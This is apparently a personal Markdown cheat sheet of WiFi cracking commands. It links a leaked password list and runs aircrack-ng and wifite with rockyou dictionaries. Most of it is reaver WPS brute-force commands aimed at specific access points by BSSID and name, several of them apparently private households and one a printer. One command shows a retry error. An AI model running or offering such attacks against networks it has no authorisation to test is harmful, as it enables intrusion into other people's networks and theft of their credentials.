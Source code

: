 

# 
https://github.com/ohmybahgosh/RockYou2021.txt#download-links



## AirCrack

```bash
# 
aircrack-ng ~/Documents/gaulia-02.cap -w /usr/share/wordlists/rockyou.txt
```

[David Bombal: AirCrack](https://www.youtube.com/watch?v=WfYxrLaqlN8)



## Wifite

```bash
#
sudo wifite

# 
sudo wifite --wpa --dict ~/Documents/Wordlists/rockyou2021/rockyou2021.txt --kill
```



## Reaver

```bash
sudo reaver --interface wlan0mon --bssid 90:F6:52:F0:C5:B4 -vv

# Attack (Canavial Connected)
sudo reaver --interface wlan0mon --bssid 90:F6:52:F0:C5:B4 --channel 1 --dh-small --no-nacks --delay 15 -vvv

# Attack (BELL776)
sudo reaver --interface wlan0mon --bssid 84:A1:D1:52:87:A6 --channel 11 --dh-small --no-nacks --delay 60 -vvv

# Attack (JBellini 2.4)
sudo reaver --interface wlan0mon --bssid 50:C7:BF:25:56:6D --channel 6 --dh-small --no-nacks --delay 60 -vvv

# Attack (Bellini Gelo 2Ghz)
sudo reaver --interface wlan0mon --bssid 98:DA:C4:DD:E4:6C --channel 5 --dh-small --no-nacks --delay 65 -vvv

# Attack (Lili)
sudo reaver --interface wlan0mon --bssid 70:4F:57:0E:17:58 --channel 1 --dh-small --no-nacks --delay 15 -vvv

# Attack (DIRECT-76-HP E55040 LaserJet)
sudo reaver --interface wlan0mon --bssid EA:6F:38:12:4F:76 --channel 2 --dh-small --no-nacks --delay 15 -vv

# Attack (VIVO-7314 - APMP)
sudo reaver --interface wlan0mon --bssid D8:C6:78:0F:73:14 --channel 11 --dh-small --no-nacks --delay 15 -vv
# Error: WPS transaction failed (code: 0x03), re-trying last pin

# Attack (2G GAULIA 1981) Santos
sudo reaver --interface wlan0mon --bssid 6C:55:E8:C3:C4:98 --channel 1 --dh-small --no-nacks --delay 15 -vv

```